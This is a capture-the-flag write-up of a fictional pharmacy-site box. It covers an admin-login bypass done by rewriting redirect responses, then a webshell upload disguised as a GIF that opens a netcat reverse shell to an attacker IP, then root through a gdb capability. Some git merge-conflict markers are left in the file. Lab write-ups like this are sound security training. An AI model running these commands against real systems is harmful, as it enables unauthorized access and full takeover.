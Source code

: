 #+title: Chemy
#+author: gabriel

* intro
Our Cyber Incident Response team has received information about illegal sales on a pharmaceutical sales site. The site administrator is reportedly selling banned drugs to different countries, and we believe that contracted companies and customers are hosted on the server. Your task is to infiltrate the server and collect information about the contracted companies and the people associated with them.

* initial scan

#+begin_src sh feroxbuster
🚨 Caught ctrl+c 🚨 saving scan state to ferox-http_chemystore_hv-1760364589.state ...
[#######>------------] - 2m     59089/150015  3m      found:8       errors:1175
[########>-----------] - 2m     12813/30000   96/s    http://chemystore.hv/
[########>-----------] - 2m     12761/30000   96/s    http://chemystore.hv/images/
[#########>----------] - 2m     14139/30000   108/s   http://chemystore.hv/uploads/
[######>-------------] - 2m     10001/30000   91/s    http://chemystore.hv/adminpanel/
[######>-------------] - 2m      9333/30000   88/s    http://chemystore.hv/connection/
#+end_src

: http://chemystore.hv/connection/dbconnect.php
<<<<<<< HEAD
: http://chemystore.hv/adminpanel/

When access /adminpanel/ we receive 302 status code, with redirection to /webadmin/login.php.

If we catch the response of the request, just modify the 302 status code to 200 code, and we can bypass the login page.

With burp, just create an Match and Replace rule, to modify the response header value 302 to 200, and when you access the /webadmin/ page, automatically access the login, and don t need to stay with the intercept on

* bypass disable functions

To get an reverse shell with the upload function, we need to bypass a lot of disable php functions and get the shell with someway

Use -> https://github.com/TarlogicSecurity/Chankro and https://www.youtube.com/watch?v=4a_VDA9Bw0J

*payload* ->
: rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.8.58.60 9001 >/tmp/f

Add the magic gif at start
: GIF87a

Send it to the application and set the listener
: nc -nlvp 9001

* Priv escalation

The gdb binary has capability set, with GTFobins get the command to gdb.
: /usr/bin/gdb /bin/bash -nx -ex 'python import os; os.setuid(0); os.execl("/bin/bash", "bash")'
=======
>>>>>>> dd08f96 (.)
